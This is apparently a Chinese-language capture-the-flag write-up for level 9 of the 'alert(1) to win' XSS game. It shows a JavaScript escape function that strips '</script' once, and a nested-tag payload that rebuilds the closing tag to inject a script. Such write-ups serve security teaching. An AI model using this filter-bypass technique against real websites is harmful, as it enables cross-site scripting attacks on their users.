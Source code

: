 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 09 - JSON 2](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3900/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

[Level 03 - JSON](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/alert/Level%2003%20-%20JSON) 的进阶版。

回顾下第 3 题的 payload 是 ：

```javascript
</script><script>alert(1);//
```

而这题对输入的字符串会做 **一次** 全局替换，把 `</script` 删掉，使得我们无法闭合标签。

但是因为替换只做一次，所以要绕过也不难，只需要把 `</script` 做一次嵌套即可，例如 `</scr</scriptipt>`，被全局替换后，留下的就是我们需要的闭合标签 `</script>` 。

因此这题可构造这样的 payload ：

```javascript
</scr</scriptipt><script>alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2009%20-%20JSON%202/imgs/01.png)



------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
